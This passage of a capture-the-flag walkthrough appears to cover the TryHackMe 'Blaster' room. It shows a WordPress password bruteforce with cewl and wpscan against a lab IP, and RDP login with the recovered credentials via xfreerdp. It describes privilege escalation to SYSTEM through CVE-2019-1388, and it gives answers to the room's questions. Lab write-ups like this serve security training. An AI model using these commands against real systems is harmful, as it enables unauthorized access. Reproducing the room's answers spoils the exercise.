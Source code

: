 ```
[+] Data Received: 510.738 KB
[+] Memory used: 278.281 MB
[+] Elapsed time: 00:04:02
```
- No other usernames are found. Let's try to bruteforce login
- **QUESTION: Navigate to our discovered hidden directory, what potential username do we discover?** `wade`
- Method 1: bruteforce with cewl
    - Let's generate a list of pass using cewl `cewl http://10.10.133.249/retro/ > pass.txt`
    - Let's bruteforce with wpscan `wpscan --url http://10.10.133.249/retro --passwords Documents/tryhackme/blaster/pass.txt --usernames wade`
```
[!] Valid Combinations Found:
 | Username: wade, Password: parzival
```

- Method 2: having a look at the comments
  - We find a note wade left to himselg `Leaving myself a note here just in case I forget how to spell it: parzival`
- Connect to wordpress we can now go to the wordpress and login using the found password `wade:parzival` **[OPTIONAL BUT FUN :D]** 
- **QUESTION Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?** `parzival`

### RDP

- Let's try to connect to rdp with the same credentials `xfreerdp /u:wade /v:10.10.191.161 /p:parzival`
- It works!  
![image](https://user-images.githubusercontent.com/96747355/163605244-c67f9082-785d-4076-814a-b6ee5e1639f5.png)  
- **Log into the machine via Microsoft Remote Desktop (MSRDP) and read user.txt. What are it's contents?** - I let you find this one on your own :D 

## Privesc

- **When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?** `cve-2019-1388`
- **Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?** `hhupd`
- [Here](https://www.youtube.com/watch?v=3BQKpPNlTSo&ab_channel=ZeroDayInitiative) is the video that shows how to use this exploit for privesc
- **Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?** `nt authority\system`
```
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\System32>whoami
nt authority\system
C:\Windows\System32>type C:\Users\Administrator\Desktop\root.txt
[STRIPPED]
```
- **Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!** - I let you answer this question on your own :)
